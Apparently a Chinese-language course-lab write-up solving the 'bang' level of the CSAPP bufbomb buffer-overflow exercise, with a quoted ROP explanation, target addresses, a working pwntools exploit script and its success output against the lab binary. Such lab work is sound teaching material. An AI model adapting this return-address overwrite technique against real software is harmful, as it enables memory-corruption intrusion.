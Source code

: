 你要是还在纠结那个32位的0填充是啥可以找个正常的函数边调边看看栈就知道啦，这和函数调用约定相关。另外，看了下面这关或许你也就知道了。

### bang()
这回是要先改变一个全局变量`global_value`的值，然后再跳转到`bang()`函数。为了改变全局变量，我们可以通过调用`Gets()`并将该全局变量地址传入，来对其进行修改，然后再跳转到`bang()`上就完成了。

另外，由于这个程序并没有禁止栈上执行，所以你想往缓冲区里写点汇编好像也没问题。但是，我是不会这样干的。

> 随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程**。所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

首先找一下`global_value`的地址：

```
.bss:0804A1C4                 public global_value
.bss:0804A1C4 global_value    dd ?                    ; DATA XREF: bang+6↑r
```

记下地址：

    0x0804A1C4

第一步跳转到`Gets()`（`0x080489C0`）需要给这个参数。看起来和第二关很像，是不是？随后就需要输入值到`global_value`中了：

``` python
cookie = 0x6dfd74c3
p.sendline(p32(cookie))

```

别忘了最后还要跳转到`bang()`（`0x08048E10`）当中，所以就有exp.py：

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain'])
print(p.recv())
address = 0x080489C0
payload = 'a' * 28 + p32(address) + p32(0x08048E10) + p32(0x0804A1C4)
p.sendline(payload)
cookie = 0x6dfd74c3
p.sendline(p32(cookie))
print(p.recv())

```

可以得到：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 11026
Team: domain
Cookie: 0x6dfd74c3

Type string:Bang!: You set global_value to 0x6dfd74c3

[*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 11026)

Process finished with exit code 0

```
